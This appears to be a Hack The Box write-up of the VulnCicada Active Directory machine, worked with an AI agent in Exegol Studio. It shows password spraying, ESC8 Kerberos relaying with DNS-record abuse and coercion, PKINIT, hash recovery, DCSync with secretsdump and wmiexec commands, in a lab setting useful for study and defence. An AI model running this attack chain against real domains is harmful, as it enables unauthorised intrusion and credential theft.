[VulnCicada](https://app.hackthebox.com/) is a Medium Windows Active Directory machine on Hack The Box. I worked through it with [Exegol Studio](https://exegol.com/studio), starting with an exposed NFS share and eventually reaching ADCS and Kerberos relaying. The first part was straightforward. The certificate side took me longer, mostly because I needed to understand what the tools were telling me.

This post follows my session, with the screenshots and notes I kept along the way. I used the agent for recon, troubleshooting, documentation and explanations, then switched between chat and a shell as I worked. It also ran the final flag retrieval. I wanted to see how useful Studio would be on a box where I still had things to learn.

The target was my Hack The Box lab instance. Flag values are redacted in the screenshots. The command excerpts are notes from the session, not a complete copy-and-paste script; some values are abbreviated.

## Table of contents

- [The setup: a disposable container in a project](#the-setup-a-disposable-container-in-a-project)
- [Recon under a watched agent](#recon-under-a-watched-agent)
- [The terrain](#the-terrain)
- [NFS: an anonymous export on a domain controller](#nfs-an-anonymous-export-on-a-domain-controller)
- [A password hiding in a picture](#a-password-hiding-in-a-picture)
- [Testing the password](#testing-the-password)
- [CertEnroll, ADCS, and Atlas](#certenroll-adcs-and-atlas)
- [Enumerating the CA: ESC8 on the table](#enumerating-the-ca-esc8-on-the-table)
- [The NTLM caveat, and a mentor to walk me through it](#the-ntlm-caveat-and-a-mentor-to-walk-me-through-it)
- [ESC8 the hard way: Kerberos relaying](#esc8-the-hard-way-kerberos-relaying)
- [From machine certificate to domain admin](#from-machine-certificate-to-domain-admin)
- [Root, and the kill chain](#root-and-the-kill-chain)
- [Resources](#resources)

## The setup: a disposable container in a project

I created an [Exegol](https://exegol.readthedocs.io/) container named `HackTheBox`, selected host networking and attached the HTB VPN configuration through the container form. I also enabled **desktop mode (RDP/VNC)** in case I needed a GUI later. This kept the tools and working files together, but host networking shares the host network namespace; it does not isolate VPN traffic from the host. [Docker documents that distinction here](https://docs.docker.com/engine/network/drivers/host/).



I linked the container to my `HackTheBox` project and made it the primary container. Studio uses that container for the run and project data. The project also groups sessions, skills and rules. That is useful for keeping a lab organised, but it is not a guarantee that the agent cannot access any host files: mounted paths and linked folders still matter. The [project documentation](https://docs.exegol.com/studio/interface/projects) describes those separately.



Target IP for this run: `10.129.77.244`.

## Recon under a watched agent

I started with the built-in **recon** skill from the harness marketplace. It gives the agent a methodology for network and service enumeration. I added it at global scope so I could reuse it in other projects.



Once added, it shows up as a slash command in the chat composer. I invoked it with `/recon 10.129.77.244 please`.


I opened **Configure** in the composer and selected **Monitor**. The same menu also has the persona and pacing controls, which I used later.



The Monitor tab shows commands and their output as they run, alongside the explanations displayed by the agent. I found that easier to follow than waiting for a recap in chat. The [Studio overview](https://docs.exegol.com/studio/) describes this layout and the related pacing controls.


I stopped the agent after the initial enumeration and asked for a recap before going further. This was active recon: it sent probes and ran service detection. The recap listed ports, host information and possible leads.


The recap also flagged an odd LDAP domain string in the scan output. I kept `cicada.vl` as the domain to confirm, rather than treating the scan label as authoritative.

I opened a shell from the chat toolbar to continue manually in the same container.



My first shell task was to generate a hosts-file snippet for the DC with NetExec. The command below writes a local file named `hosts`; it does not update `/etc/hosts` by itself.

```bash
nxc smb 10.129.77.244 -u '' -p '' --generate-hosts-file hosts
cat hosts
# 10.129.77.244   DC-JPQ225.cicada.vl cicada.vl DC-JPQ225
```



## The terrain

Most of the scan looked like a Windows domain controller. NFS was the service that caught my attention:

| Port | Service | Notes |
|---|---|---|
| 53 | DNS | Simple DNS Plus |
| 80 | HTTP | Microsoft IIS 10.0 (default page, TRACE enabled) |
| 88 | Kerberos | |
| 111 / 2049 | rpcbind / **NFS** | **unusual on a DC** |
| 135 / 139 / 445 | RPC / NetBIOS / SMB | signing required, `NTLM:False` |
| 389 / 636 / 3268 / 3269 | LDAP / LDAPS / GC | domain `cicada.vl` |
| 3389 | RDP | |
| 5985 | WinRM | |
| 9389 | ADWS | |

The host identified itself as `DC-JPQ225` in `cicada.vl`. I noted the `NTLM:False` results for the services tested and started with NFS. Those service results would come up again during the ADCS investigation.

## NFS: an anonymous export on a domain controller

NFS was also the first lead in the agent's recap. I checked the export list:

```bash
showmount -e 10.129.77.244
# Export list for 10.129.77.244:
# /profiles (everyone)
```

`showmount` listed `/profiles` as exported to `everyone`. That describes the export access list; the later file reads are what established that I could access the contents without domain credentials. My first attempt to mount it failed:

```bash
sudo mount -t nfs -o rw 10.129.77.244:/profiles /workspace/mntDir
# mount.nfs: rpc.statd is not running but is required for remote locking.
# mount.nfs: Either use '-o nolock' to keep locks local, or start statd.
# mount.nfs: Operation not permitted
```


I was unsure whether I had made a mistake in the mount command, so I asked the agent. Mentioning the terminal tab with `@` let me pass it the visible output without copying the error by hand.


The agent pointed to the container environment. The error was consistent with a local mount restriction, but the output alone did not prove the exact cause. Containers share the host kernel, and an absent `nfs` entry in `/proc/filesystems` can mean the module is not loaded, rather than that NFS was never compiled. Mount permissions are a separate question; `CAP_SYS_ADMIN` is relevant, along with the container's other restrictions. See the Linux documentation for [`/proc/filesystems`](https://man7.org/linux/man-pages/man5/proc_filesystems.5.html) and [capabilities](https://www.man7.org/linux/man-pages/man7/capabilities.7.html).

The locking warning and the permission error were separate issues. I left the mount troubleshooting there and used the [libnfs](https://github.com/sahlberg/libnfs) userspace tools shown in the session instead:

```bash
nfs-ls -R nfs://10.129.77.244/profiles
# ... Administrator, Rosie.Powell, Shirley.West, Richard.Gibbons,
#     Megan.Simpson, Katie.Ward, Joyce.Andrews, Jordan.Francis,
#     Jane.Carter, Debra.Wright, Daniel.Marshall ...

nfs-ls -R nfs://10.129.77.244/profiles | awk '$1 ~ /^-/ {print $NF}' | while read f; do
  mkdir -p "/workspace/loot/$(dirname "$f")"
  nfs-cp "nfs://10.129.77.244/profiles/$f" "/workspace/loot/$f"
done
```


The listing contained eleven profile folder names and two PNGs that stood out: `Administrator/vacation.png` and `Rosie.Powell/marketing.png`. The folder names gave me candidate usernames, although a profile directory alone does not establish that an account still exists or is enabled.



## A password hiding in a picture

The workspace was visible in Studio's VS Code Explorer, so I opened the PNGs there. In `marketing.png`, a yellow sticky note on the desk reads **`Cicada123`**.



I had been expecting something hidden in the file. It was just written on the desk.

## Testing the password

I had a possible password and a list of profile owners. I used **Add Terminal Selection to Chat** on the NFS listing and asked the agent to turn the names into `users.txt`.



It produced the eleven names. These were the Kerberos authentication results from the session:

```bash
nxc smb 10.129.77.244 -u users.txt -p 'Cicada123' -k --continue-on-success
# [+] cicada.vl\Rosie.Powell:Cicada123
# [-] cicada.vl\Shirley.West:Cicada123  KDC_ERR_CLIENT_REVOKED
# [-] ...others: KDC_ERR_PREAUTH_FAILED
```

`Rosie.Powell:Cicada123` worked. Testing one password against several accounts is a password spray; the successful login did not, by itself, prove reuse across accounts. The output also reported `KDC_ERR_CLIENT_REVOKED` for Shirley and pre-authentication failures for the other attempts.



Foothold: `cicada.vl\Rosie.Powell`.

## CertEnroll, ADCS, and Atlas

With valid credentials, I checked the shares:

```bash
nxc smb 10.129.77.244 -u Rosie.Powell -p Cicada123 -k --shares
```

Alongside the usual `ADMIN$`, `C$`, `IPC$`, `NETLOGON`, `SYSVOL` and the writable `profiles$`, there is a share called **`CertEnroll`**, remarked as "Active Directory Certificate Services share".

I did not recognise `CertEnroll`, so I asked the agent about it. It consulted **Atlas** while answering.



Atlas organises documentation into a graph that the agent can browse. In this session I used it with [The Hacker Recipes](https://www.thehacker.recipes/) and the [NetExec wiki](https://www.netexec.wiki/). I could expand the graph to see which pages the agent had consulted and how they connected to the question.



I liked being able to inspect those sources. My previous setup had suggested outdated tool names and flags, so having the NetExec documentation available was useful. An imported corpus still needs updating, though, and a sourced answer can still be wrong. I did not measure token usage during this run.

The explanation associated `CertEnroll` with ADCS certificate and revocation-list publication. I treated the share as a lead to investigate, rather than proof of a particular vulnerability.



The share listing contained a CA certificate and CRLs. I then moved on to certificate-service enumeration.



## Enumerating the CA: ESC8 on the table

I continued with certificate-service enumeration using Rosie's Kerberos credentials:

```bash
getTGT.py 'cicada.vl/Rosie.Powell:Cicada123' -dc-ip 10.129.77.244
export KRB5CCNAME=/workspace/Rosie.Powell.ccache

certipy find -u Rosie.Powell@cicada.vl -k -no-pass \
  -dc-ip 10.129.77.244 -dc-host DC-JPQ225.cicada.vl -vulnerable -stdout
```


The output named the CA `cicada-DC-JPQ225-CA` on `DC-JPQ225.cicada.vl` and reported this Web Enrollment configuration:

```
Web Enrollment
  HTTP
    Enabled                             : True
  HTTPS
    Enabled                             : False
```

That made ESC8 a candidate for the rest of the investigation. The reported Web Enrollment configuration was a lead, not enough evidence on its own to establish exploitability.

## The NTLM caveat, and a mentor to walk me through it

This was where I needed help. I knew ESC8 was associated with NTLM relay, but the earlier results said `NTLM:False`. I did not understand how those observations fitted together.

The agent pointed out that Certipy had timed out while checking the web endpoint and had fallen back to configuration information. That mattered: the output was not a successful authentication test against the site.

The explanations were getting longer without becoming much clearer to me, so I switched the persona to **Mentor**. I wanted smaller steps and more explanation of the terminology.



That helped. We went back over the CA, certificate templates and the observations from enumeration before continuing.



The distinction I had missed was between services. The SMB and LDAP results did not establish the authentication configuration of IIS. I checked the HTTP response separately:

```bash
curl -s -i --ntlm -u 'cicada.vl\Rosie.Powell:Cicada123' \
  http://DC-JPQ225.cicada.vl/certsrv/certfnsh.asp
```

```
HTTP/1.1 401 Unauthorized
Server: Microsoft-IIS/10.0
WWW-Authenticate: Negotiate
WWW-Authenticate: NTLM
```


The response advertised NTLM as an authentication scheme. A `401` challenge does not establish that authentication succeeded or that a relay is possible. That is the scope of what these headers show. [Microsoft documents the challenge header here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ntht/7daaf621-94d9-4942-a70a-532e81ba293e).

The rest of my session followed the Kerberos-relay approach described in the notes.

## ESC8 the hard way: Kerberos relaying

I asked the agent to look for documentation, and it returned the Synacktiv article [Relaying Kerberos over SMB using krbrelayx](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx.html).

This was the part I was least familiar with. My notes refer to SPNs, `CredMarshalTargetInfo` and a specially formed DNS name. I have kept the session excerpts below; the linked research gives the protocol-level explanation.

The session had two parts:

**1. The DNS record.** The notes show a record added with [dnstool](https://github.com/dirkjanm/krbrelayx), pointing to my tunnel IP. Its name is abbreviated here:

```bash
dnstool.py -u 'cicada.vl\Rosie.Powell' -k -dc-ip 10.129.77.244 -dns-ip 10.129.77.244 \
  -r 'DC-JPQ2251UWhRC...AAA' -d 10.10.14.26 --action add DC-JPQ225.cicada.vl --tcp
```

The notes also record a DNS lookup problem and the resolver setting used during the session:


**2. The relay attempt.** The next excerpt uses NetExec's `coerce_plus` module alongside krbrelayx:

```bash
nxc smb 10.129.77.244 -u Rosie.Powell -p Cicada123 -k -M coerce_plus \
  -o LISTENER=DC-JPQ2251UWhRC...AAA
```

The output eventually reported `HTTP server returned status code 200, treating as a successful login`, followed by `GOT CERTIFICATE!`:



The session produced `DC-JPQ225.pfx`, which I used in the next step.

## From machine certificate to domain admin

The next excerpt shows the [PKINIT](https://www.thehacker.recipes/ad/movement/kerberos/pkinit) step from my notes:

```bash
gettgtpkinit.py -cert-pfx /workspace/loot/krbrelay/DC-JPQ225.pfx \
  'cicada.vl/DC-JPQ225$' /workspace/loot/DC-JPQ225.ccache
```


The `Saved TGT to file` line, plus an `AS-REP encryption key`, confirm the machine-account TGT. Then [UnPAC-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash): `certipy auth` uses the same certificate to recover the account's NT hash straight from the PAC:

```bash
certipy auth -pfx /workspace/loot/krbrelay/DC-JPQ225.pfx -dc-ip 10.129.77.244
# [*] Using principal: 'dc-jpq225$@cicada.vl'
# [*] Got hash for 'dc-jpq225$@cicada.vl': aad3b...:a65952...
```


A domain controller's machine account has replication rights, so it can DCSync. With its ccache exported, `secretsdump` pulls NTDS:

```bash
export KRB5CCNAME=/workspace/loot/DC-JPQ225.ccache
secretsdump.py -k -no-pass DC-JPQ225.cicada.vl
```



The output included domain account secrets, including Administrator's. Calling this a copy of the full `NTDS.DIT` file would overstate what the screenshot shows.

## Root, and the kill chain

The notes record a failed NTLM attempt with `STATUS_NOT_SUPPORTED`, followed by this Kerberos-based session:

```bash
getTGT.py -hashes :<admin-nt-hash> 'cicada.vl/Administrator' -dc-ip 10.129.77.244
export KRB5CCNAME=/workspace/Administrator.ccache
wmiexec.py -k -no-pass -dc-ip 10.129.77.244 'cicada.vl/Administrator@DC-JPQ225.cicada.vl'
```

The final screenshot shows the agent retrieving `root.txt` and locating `user.txt` on Administrator's desktop while I watched in Monitor. It does not show a `whoami` result, so I cannot substantiate the chat's claim that the process ran as `NT AUTHORITY\SYSTEM`.



Before closing the session, I asked Studio to build a **kill chain** with `@killchain`. It used the workspace evidence to reconstruct the route, including failed attempts. That gave me something easier to revisit than a long terminal history.


I exported the graph to PNG to keep with these notes:


The NFS share and the image were the easy part for me. ADCS was where I had to slow down, ask questions and check what the output actually established. Studio was most useful there: I could keep the shell, documentation and conversation together, then save a graph of the session when I was done.

I would like to give Atlas and kill chains their own posts after using them on a few more boxes.

## Resources

**Tooling**

- [Exegol](https://exegol.readthedocs.io/) and [Exegol Studio](https://exegol.com/studio) ([docs](https://docs.exegol.com/studio/))
- [NetExec](https://github.com/Pennyw0rth/NetExec) and its [wiki](https://www.netexec.wiki/)
- [Certipy](https://github.com/ly4k/Certipy)
- [krbrelayx / dnstool](https://github.com/dirkjanm/krbrelayx)
- [PKINITtools](https://github.com/dirkjanm/PKINITtools) (`gettgtpkinit.py`)
- [Impacket](https://github.com/fortra/impacket)
- [libnfs](https://github.com/sahlberg/libnfs) (`nfs-ls`, `nfs-cp`)

**Techniques**

- [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2), the ADCS paper defining ESC1-ESC8
- [Relaying Kerberos over SMB using krbrelayx](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx.html), Synacktiv
- [Using Kerberos for Authentication Relay Attacks](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html), James Forshaw / Project Zero
- [The Hacker Recipes: ADCS](https://www.thehacker.recipes/ad/movement/adcs/), [PKINIT](https://www.thehacker.recipes/ad/movement/kerberos/pkinit) and [UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)
- [Exploiting ADIDNS](https://www.netspi.com/blog/technical-blog/network-pentesting/exploiting-adidns/), Kevin Robertson
- [0xdf's VulnCicada writeup](https://0xdf.gitlab.io/2025/07/03/htb-vulncicada.html); the same box, a different route
